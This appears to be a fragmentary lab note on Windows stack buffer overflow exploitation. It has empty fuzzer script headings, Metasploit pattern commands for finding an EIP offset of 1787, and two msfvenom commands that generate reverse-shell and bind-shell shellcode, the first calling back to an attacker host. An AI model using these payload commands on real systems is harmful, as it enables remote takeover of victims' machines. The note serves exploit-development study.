 #### FuzzerA.py
```

```



```
msf-pattern_create -l xxxx
```

---
#### FuzzerB.py
```

```
---

EIP = 

```
msf-pattern_offset -l  -q 
```

1787

This program will send a 3000-byte attack to the server, consisting of 1787 'A' characters followed by 'BBBB' which should end up in the EIP, and enough 'C' characters to make the total 3000 bytes long.



---
#### FuzzerC.py
```

```
---

---
#### FuzzerD.py
```

```
---

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0A\x0D\x20"
```

```
msfvenom -p windows/shell_bind_tcp -f c -a x86 -b "\x00\x0A\x0D\x20"
```


---
#### FuzzerE.py
```

```
---



